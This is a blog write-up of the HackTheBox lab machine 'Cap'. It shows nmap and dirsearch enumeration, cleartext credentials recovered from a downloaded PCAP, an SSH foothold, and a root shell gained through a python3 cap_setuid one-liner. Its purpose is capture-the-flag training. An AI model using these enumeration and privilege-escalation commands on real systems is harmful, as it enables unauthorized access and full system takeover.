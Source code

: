 ```yaml
---
layout: post
title: Cap
date: 2025-07-05 10:00:00 +0100
categories: [Walkthroughs]
tags: [hackthebox, linux, web-app,pcap,wireshark, linux privesc]
---
```

![alt text](https://labs.hackthebox.com/storage/avatars/70ea3357a2d090af11a0953ec8717e90.png)

---

| Description    |  Info |
| --------- | ----------- |
| Platform    | HackTheBox       |
| OS | Linux        |
| Difficulty | Easy        |
| Release Date | 21 June 2021        |
| Link to machine | [Boardlight](https://app.hackthebox.com/machines/Cap)        |

# Highlights
Wireshark, PCAP, Linux Enumeration, Capabilities, SUID, Linux Privilege Escalation

---

# Open ports enumeration
Nmap scan

```bash
nmap -T4 -p- -A 10.10.10.245 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-05 12:22 BST
Nmap scan report for 10.10.10.245
Host is up (0.062s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   54.90 ms 10.10.16.1
2   28.31 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.77 seconds
```

Nmap returns open ports for ```SSH``` (Port 22) and a web server ```HTTP```  (Port 80) ```(http Gunicorn)``` and ```FTP``` (Port 21). 

# FTP Enumeration
```FTP``` anonymous login is ```disabled```

![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/cap/Cap1.png?raw=true)
# SSH Enumeration
```SSH``` password authentication is ```enabled```
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/cap/Cap2.png?raw=true)



# HTTP Enumeration

Navigating to ```http://10.10.10.245:80``` allows us to access to a Dashboard with the user ```Nathan```.

![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/cap/Cap3.png?raw=true)

In the left menu under ```Dashboard```, we can find the following options , with the most interesting one being ```Security Snapshot (5 Second PCAP + Analysis)``` that takes us to the page ```http://10.10.10.245/data/1```

![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/cap/Cap4.png?raw=true)

![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/cap/Cap5.png?raw=true)


Being ```PCAP``` files packet captures, we are interested in getting our hands on those files if they are available in any of those directories.
Using ```dirsearch```, we enumerate the existing files present in the data directory, excluding pages that return error codes ```403,500 and 400```.
The remain results are 4 pages : ```01,0,00 and 1```
```bash
dirsearch -u http://10.10.10.245/data -x 403,500,404                                     

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                                    
 (_||| _) (/_(_|| (_| )                                                                                                                                             
                                                                                                                                                                    
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/HTB/Cap/reports/http_10.10.10.245/_data_25-07-05_12-31-15.txt

Target: http://10.10.10.245/

[12:31:15] Starting: data/                                                                                                                                          
[12:31:23] 200 -   17KB - /data/01                                          
[12:31:23] 200 -   17KB - /data/0                                           
[12:31:23] 200 -   17KB - /data/00                                          
[12:31:23] 200 -   17KB - /data/1 
```

Navigating to each page, we discover that the file ```0```, contains some information, so we download it and open the file with ```Wireshark```.

![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/cap/Cap6.png?raw=true)



# PCAP file examination with Wireshark

Opening the ```PCAP``` file with Wireshark for examination, on line ```36``` and ```40```, we can find cleartext credentials for the user ```Nathan```.
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/cap/Cap7.png?raw=true)

# Foothold and user flag
These credentials allow us to connect to the target both using FTP or SSH, so we are going to use SSH, collect the ```user flag```, and start enumeration of the system to escalate privileges to root.
```bash
ssh nathan@10.10.10.245 
nathan@cap:~$ whoami
nathan
nathan@cap:~$ hostname
cap
nathan@cap:~$ 


nathan@cap:~$ ls -la
total 28
drwxr-xr-x 3 nathan nathan 4096 May 27  2021 .
drwxr-xr-x 3 root   root   4096 May 23  2021 ..
lrwxrwxrwx 1 root   root      9 May 15  2021 .bash_history -> /dev/null
-rw-r--r-- 1 nathan nathan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 nathan nathan 3771 Feb 25  2020 .bashrc
drwx------ 2 nathan nathan 4096 May 23  2021 .cache
-rw-r--r-- 1 nathan nathan  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 May 27  2021 .viminfo -> /dev/null
-r-------- 1 nathan nathan   33 Jul  5 11:24 user.txt
```
We can now collect the ```user.txt``` flag and start enumerating the system.


# Privilege Escalation and root flag
Enumerating the system we come across ```cap_setuid``` capability
```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Based on the output from the commands used above, the /usr/bin/python3.8 binary has the cap_setuid capabilities assigned, which allows to set the effective user ID of a process when running its binary i.e. executing binaries as root.
Aaccording to GTFOBins, it can be easily exploited with the following command, which simply executes ```/bin/sh``` with the SUID bit set: ```/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")’```

```bash
nathan@cap:~$ /usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@cap:~# 
root@cap:~# pwd
/home/nathan
root@cap:~# cd /
root@cap:/# cd root
root@cap:/root# ls -la
total 36
drwx------  6 root root 4096 Jul  5 11:24 .
drwxr-xr-x 20 root root 4096 Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 May 23  2021 .cache
drwxr-xr-x  3 root root 4096 May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 May 23  2021 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Jul  5 11:24 root.txt
drwxr-xr-x  3 root root 4096 May 23  2021 snap
```

We can now collect the root flag,

Enjoy!


